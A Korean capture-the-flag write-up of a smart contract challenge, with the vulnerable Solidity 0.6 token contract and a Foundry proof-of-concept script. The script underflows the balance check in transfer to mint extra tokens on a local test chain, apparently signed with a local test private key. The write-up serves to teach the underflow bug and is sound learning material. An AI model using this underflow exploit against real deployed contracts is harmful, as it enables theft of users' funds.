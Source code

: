 # 지문

이 레벨의 목표는 아래의 **기본 토큰 컨트랙트**를 해킹하는 것입니다.

처음에 **20개의 토큰**이 주어지며, 어떤 식으로든 **추가 토큰을 확보**하면 이 레벨을 클리어할 수 있습니다.
가능하다면 **아주 많은 양의 토큰**을 확보하는 것이 좋습니다.

도움이 될 수 있는 것들:

* 주행 거리계(odometer)가 무엇인지 생각해보기.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

# 풀이 
solidity 0.6.0 버전대임을 주목할 필요가 있음.
solidity 0.8.0 버전대부터는 개발자가 신경쓰지않아도 compiler level에서 overflow/underflow guard를 자동으로 적용해줌.

그러나 그 미만 버전에서는 그러한 guard를 자동으로 적용해주지않기 때문에 그러한 guard를 구현한 라이브러리인 `SafeMath`같은것들을 썼는지 꼭 점검해야함.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function transfer(address _to, uint256 _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint256 balance);
}
contract SolveScript is Script {
    address public target = 0xCe85503De9399D4dECa3c0b2bb3e9e7CFCBf9C6B;

    function setUp() public {}

    // 0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC
    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        console.log("current user balance : %d", ITarget(target).balanceOf(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC));

        ITarget(target).transfer(address(1), 255);
        console.log("current user balance after poc: %d", ITarget(target).balanceOf(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC));
        vm.stopBroadcast();
    }
}
```